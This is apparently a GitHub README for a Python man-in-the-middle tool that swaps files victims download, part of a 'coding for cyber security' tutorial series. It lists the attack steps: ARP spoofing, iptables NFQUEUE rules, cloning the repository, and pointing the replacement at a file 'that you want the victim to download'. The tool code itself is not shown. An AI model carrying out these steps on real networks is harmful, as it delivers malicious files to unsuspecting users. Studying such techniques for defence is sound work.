 # file-interceptor
program to intercept and modify files

An elaborated description of the usage of this tool is available in the following article, please visit this link for more details.

https://an4ndita.medium.com/writing-a-file-interceptor-program-in-python-coding-for-cyber-security-program-6-mitm-16b590be2f69


# Usage :

Run the ARP Spoofer program to work as Man In The Middle.
 
Run the iptables command :

For remote computers, run the following command in the terminal.

"iptables -I FORWARD -j NFQUEUE --queue-num 0"

and for local computers, run the following commands in the terminal.

"iptables -I INPUT -j NFQUEUE --queue-num 0"

"iptables -I OUTPUT -j NFQUEUE --queue-num 0"

Then download and run this code :

 "git clone https://github.com/An4ndita/file-interceptor.git"

 "cd file-interceptor"

 "mousepad replace-downloads.py"

Edit the Location: & Replace it with the file that you want the victim to download.

 "python3 replace-downloads.py"
